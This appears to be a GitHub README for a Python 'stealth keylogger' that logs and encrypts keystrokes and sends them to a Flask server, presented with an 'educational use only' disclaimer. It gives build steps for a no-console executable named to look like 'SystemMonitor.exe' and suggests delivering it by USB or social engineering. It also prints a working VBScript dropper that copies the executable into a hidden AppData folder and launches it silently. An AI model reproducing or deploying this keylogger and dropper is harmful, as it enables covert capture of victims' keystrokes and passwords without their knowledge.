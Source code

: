# Python-based Stealth Keylogger with Flask Exfiltration

> **Educational Use Only!** This keylogger project was built strictly for academic and cybersecurity awareness purposes. Unauthorized deployment is illegal and unethical.

---

## Project Overview

This Python-based keylogger captures keystrokes from a target system, encrypts them, and exfiltrates the data to a local Flask server. It is stealthily compiled into an `.exe` file and can be delivered via USB or remotely through links or social engineering. This keylogger attacks system that has Python installed in them.
Systems without Python, won't be able to run this keylogger properly.

### Features

*  Stealth keylogger (runs silently with no console window)
*  Encrypted keystroke logging with timestamp
*  Real-time exfiltration to a local Flask server
*  Log viewing via `/view` endpoint (with decryption)
*  Executable delivery (via PyInstaller)

---

## Project Structure

```
.
├── main.py              # Keylogger logic
├── server.py            # Flask server to receive logs
├── encryption.py        # Encryption/decryption logic
├── exfil.py             # Exfiltration helper
├── Logs/                # Received keystroke logs
├── dist/
│   └── SystemMonitor.exe   # Final compiled EXE
├── launch.vbs           # Dropper script
```

---

## Execution Steps

### 1. Install Dependencies

```bash
pip install flask pynput cryptography
```

### 2. Run Flask Server

```bash
python server.py
```
Basic server using `flask` module. This server is set up to capture each keystroke with timestamp. The use of '/view' and '/capture' is explained in description of `server.py` attachment. We have imported functions `encrypt()` and `decrypt()`, so that we can encrypt
### 3. Run Keylogger

```bash
python main.py
``` 
---

## Building the EXE (Stealth Mode)

```bash
pyinstaller --onefile --noconsole main.py
```
Make sure you have started your virtual environment before executing this command, otherwise you may face issues while running .exe file.
Converts main.py to .exe file so that it runs as a program.
Output will be in `dist/SystemMonitor.exe`

---


## Dropper Script (launch.vbs)

```vbscript
Set fso = CreateObject("Scripting.FileSystemObject")
Set shell = CreateObject("WScript.Shell")

src = fso.GetAbsolutePathName("SystemMonitor.exe")
destFolder = shell.ExpandEnvironmentStrings("%APPDATA%\WinLogs")
dest = destFolder & "\SystemMonitor.exe"

If Not fso.FolderExists(destFolder) Then
    fso.CreateFolder(destFolder)
End If
If Not fso.FileExists(dest) Then
    fso.CopyFile src, dest
    shell.Run "cmd /c attrib +h '" & dest & "'", 0, True
End If
shell.Run """" & dest & """", 0, False
```

---
## Scripts used

### main.py
The main logic for keylogger. It uses pynput library, which uses `keyboard.Listener()` that 'listens' or captures keystrokes. The pynput library is fully used for keyboard and mouse monitoring. What each function in main.py does:-
1. ** process_key(key): ** Processes a single keystroke, formats it for logging, and sends it to an external function (send_keystroke()) with a timestamp. It also handles special cases like the ESC key to stop the keylogger.
2. ** on_press(key): **
     - Calls `process_key(key)` to handle the key.
     - If process_key returns False (i.e., ESC was pressed), the function returns False, which stops the keyboard listener.
     - Otherwise, it implicitly returns None, allowing the listener to continue.
3. ** on_release(key): **
     - Input: Takes a key object from the pynput.keyboard listener.
     - Logic: Does nothing (pass) but can be extended to handle key release events if needed (e.g., logging key release times).
     - Return Value: Implicitly returns None.
The script terminates when `ESC` is pressed on keyboard.
---

### encryption.py

- Uses `cryptography` library's `fernet` class that generates a key and stores it in a file. 
- The library also helps in encryption and decryption. The key is used to and encrypt and decrypt keystroke data.
- The `load_key()` uses the existing key from key file for `encrypt(message)` and `decrypt(token)` operations. --- The `encrypt(message)` takes a string as an input and encrypts it into Fernet token(ciphertext).
- The `decrypt(token)` takes a Fernet token as input and decrypts it into original plaintext, using the key.
note: without the key, encryption and decryption won't take place.

---

### exfil.py

- Exfiltrates data to local server
- 

## 🚫 Disclaimer

This project was developed **only for educational demonstrations** in ethical hacking labs and internships. Misuse may be punishable under cybercrime laws.

> Be smart. Be ethical. Use your skills to protect, not harm.

---

## 📄 Credits

* Python `pynput` for keystroke monitoring
* Flask for exfil server
* Cryptography for Fernet encryption
* Steghide for payload concealment

---

**Author:** \[Your Name Here]
**GitHub:** \[github.com/yourusername]
**LinkedIn:** \[linkedin.com/in/yourprofile]
